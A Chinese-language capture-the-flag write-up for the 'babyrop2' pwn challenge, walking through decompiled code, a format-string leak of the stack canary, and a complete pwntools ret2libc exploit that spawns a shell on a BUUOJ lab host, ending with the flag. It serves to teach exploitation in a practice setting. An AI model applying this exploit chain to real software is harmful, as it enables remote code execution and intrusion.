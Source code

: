 ```yaml
---
layout: post
title:  babyrop2
date:   2021-08-01 00:01:01 +0300
image:  2021-08-01-train.jpg
tags:   [ctf,Pwn,Fmtstr,ubuntu16,ROP]
---
```


main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  gift(argc, argv);
  vuln();
  return 0;
}
```

init

```assembly
unsigned __int64 init()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Can u return to libc ?");
  puts("Try u best!");
  return __readfsqword(0x28u) ^ v1;
}
```

通过字符串的提示，可以知道要泄露libc

gift

```assembly
unsigned __int64 gift()
{
  char format[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("I'll give u some gift to help u!");
  __isoc99_scanf("%6s", format);
  printf(format);
  puts(byte_400A05);
  fflush(0LL);
  return __readfsqword(0x28u) ^ v2;
}
```

有一个格式化字符串漏洞

vuln

```assembly
unsigned __int64 vuln()
{
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Pull up your sword and tell me u story!");
  read(0, buf, 0x64uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

首先计算偏移量，要注意这里只能输入6个字符，可以逐次尝试得到偏移

```assembly
[*] Switching to interactive mode
Can u return to libc ?
Try u best!
I'll give u some gift to help u!
aa%6$p
aa0x702436256161
```

%p表示按十六进制输出数据，如果输出数据不够8位数，则左边补零。

看栈的情况

```assembly
-0000000000000010 format          db 8 dup(?)
-0000000000000008 var_8           dq ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```

canary是在rbp+8，也就是偏移为%7$p

然后利用rop拿下

```assembly
from pwn import *
from LibcSearcher import *

io = remote("node4.buuoj.cn", 25599)

payload = "%7$p"
io.recvuntil("I'll give u some gift to help u!\n")
io.sendline(payload)

canary = int(io.recvuntil("\n"), 16)
print(hex(canary))

pop_rdi = 0x400993
puts_got = 0x601018
puts_plt = 0x400610
vuln = 0x0400887
payload = "a"*24 + p64(canary) + p64(0xdeadbeaf)
payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln)
io.recvuntil("story!\n")
io.sendline(payload)

addr = u64(io.recvuntil("\n")[:-1].ljust(8, "\x00"))
print(hex(addr))

libc = LibcSearcher("puts", addr)
base = addr - libc.dump("puts")
system = base + libc.dump("system")
binsh = base + libc.dump("str_bin_sh")

payload = "a"*24 + p64(canary) + p64(0xdeadbeaf)
payload += p64(pop_rdi) + p64(binsh) + p64(system) + p64(vuln)
io.recvuntil("story!\n")
io.sendline(payload)

io.interactive()
```

Multi Results:
 0: archive-old-glibc (id libc6-amd64_2.24-3ubuntu1_i386)
 1: archive-old-glibc (id libc6-amd64_2.24-3ubuntu2.2_i386)
 2: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2.2_i386)
 3: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2_i386)
 4: ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
Please supply more info using
        add_condition(leaked_func, leaked_address).
You can choose it by hand
Or type 'exit' to quit:4
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.

得到flag

flag{b5be8483-e232-4152-8ca7-99cf8531333c}